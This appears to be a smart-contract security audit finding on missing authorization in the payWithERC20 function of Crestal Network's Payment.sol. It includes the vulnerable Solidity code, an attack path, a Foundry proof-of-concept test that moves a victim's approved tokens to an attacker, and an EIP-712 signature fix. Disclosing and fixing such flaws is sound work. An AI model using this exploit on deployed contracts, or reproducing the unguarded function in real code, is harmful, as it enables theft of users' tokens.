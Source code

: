 Bubbly Ceramic Bison

High

# Unauthorized ERC20 Token Transfers in `payWithERC20`

### Summary



**The lack of authorization checks in `payWithERC20` will cause a complete loss of funds for users as an attacker will transfer tokens from any approved address without permission.**





### Root Cause

In [Payment.sol:25-32](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25C4-L32C6) the `payWithERC20` function is public and lacks any authorization mechanisms, allowing any caller to transfer tokens from any address that has approved the contract.

```solidity
function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
    // check from and to address
    require(fromAddress != toAddress, "Cannot transfer to self address");
    require(toAddress != address(0), "Invalid to address");
    require(amount > 0, "Amount must be greater than 0");
    IERC20 token = IERC20(erc20TokenAddress);
    token.safeTransferFrom(fromAddress, toAddress, amount);
}
```

### Internal Pre-conditions

1. Any user must have approved the contract to spend their ERC20 tokens
2. The amount to be transferred must be greater than 0
3. The `fromAddress` and `toAddress` must be different addresses
4. The `toAddress` must not be the zero address


### External Pre-conditions

1. ERC20 tokens used with this contract must follow standard ERC20 implementation with `transferFrom` functionality


### Attack Path

1. User A approves the contract to spend their tokens through the standard ERC20 `approve` function
2. Attacker calls `payWithERC20` with User A's address as the `fromAddress`, their own address as the `toAddress`, and any arbitrary amount up to the approved amount
3. The tokens are transferred from User A to the attacker with no authorization checks



### Impact

Users who have approved the Crestal contract will suffer complete loss of their approved tokens. The attacker gains the full amount of tokens they transfer from victims.


### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity >=0.8.0;

import "forge-std/Test.sol";
import "../src/Payment.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    constructor() ERC20("Mock", "MCK") {
        _mint(msg.sender, 1000000 * 10**18);
    }
}

contract PaymentExploitTest is Test {
    Payment payment;
    MockERC20 token;
    address user = address(0x1);
    address attacker = address(0x2);
    
    function setUp() public {
        payment = new Payment();
        token = new MockERC20();
        
        // Transfer tokens to user
        token.transfer(user, 1000 * 10**18);
        
        // User approves the payment contract to spend tokens
        vm.prank(user);
        token.approve(address(payment), 1000 * 10**18);
    }
    
    function testUnauthorizedTransfer() public {
        // Check initial balances
        assertEq(token.balanceOf(user), 1000 * 10**18);
        assertEq(token.balanceOf(attacker), 0);
        
        // Attacker calls payWithERC20 to steal user's tokens
        vm.prank(attacker);
        payment.payWithERC20(address(token), 500 * 10**18, user, attacker);
        
        // Verify tokens were stolen
        assertEq(token.balanceOf(user), 500 * 10**18);
        assertEq(token.balanceOf(attacker), 500 * 10**18);
    }
}
```

### Mitigation

Implement a proper authorization mechanism for the `payWithERC20` function. Since this function is intended to support gasless transactions, it should use signed messages (EIP-712) to verify that the `fromAddress` has authorized the transfer:

```solidity
function payWithERC20(
    address erc20TokenAddress, 
    uint256 amount, 
    address fromAddress, 
    address toAddress, 
    bytes memory signature
) public {
    // Verify authorization
    bytes32 digest = getTransferDigest(erc20TokenAddress, amount, fromAddress, toAddress);
    address signer = getSignerAddress(digest, signature);
    require(signer == fromAddress, "Unauthorized transfer");
    
    // Perform transfer
    require(fromAddress != toAddress, "Cannot transfer to self address");
    require(toAddress != address(0), "Invalid to address");
    require(amount > 0, "Amount must be greater than 0");
    require(erc20TokenAddress != address(0), "Invalid token address");
    
    IERC20 token = IERC20(erc20TokenAddress);
    token.safeTransferFrom(fromAddress, toAddress, amount);
}
```

Alternatively, restrict the function to be called only by trusted addresses (like the forwarding gateway mentioned in the README).